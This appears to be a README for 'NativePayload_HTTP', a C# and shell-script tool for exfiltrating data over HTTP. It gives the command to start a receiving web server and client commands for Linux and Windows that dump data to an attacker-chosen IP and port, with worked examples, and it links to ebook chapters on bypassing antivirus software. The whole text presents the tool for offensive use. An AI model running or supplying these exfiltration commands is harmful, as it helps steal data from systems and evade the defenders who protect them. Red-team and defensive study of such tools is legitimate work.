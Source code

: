 # NativePayload_HTTP
Data Exfiltration via HTTP Traffic (C# and Shell Script)

this code has two parts: 1.Server-Side and 2.Client-Side

Note:in server-side this code tested by Kali linux only! 

client-side tested by kali 2017-18 and ubuntu 14.04 also windows7 and 2012

![](https://github.com/DamonMohammadbagher/NativePayload_HTTP/blob/master/NativePayload_HTTP.png)

# 1.Server-Side (linux only):
./NativePayload_HTTP.sh -exfilwebserver

# 2.Client-Side (linux):
./NativePayload_HTTP.sh  -dumpcmd  [ServerIPv4]  [Port]  [Internal-delay]

Example: ./NativePayload_HTTP.sh  -dumpcmd   192.168.56.1  80  0.4

# 2.Client-Side (windows):
NativePayload_HTTP.exe  -dumpcmd  [ServerIPv4]  [Port] 

Example: NativePayload_HTTP.exe  -dumpcmd  192.168.56.1 80 

# Note: for more information and help (step by step) , Please read these PDF files:

NativePayload_HTTP (Part1): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part1.pdf

NativePayload_HTTP (Part2): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part2.pdf
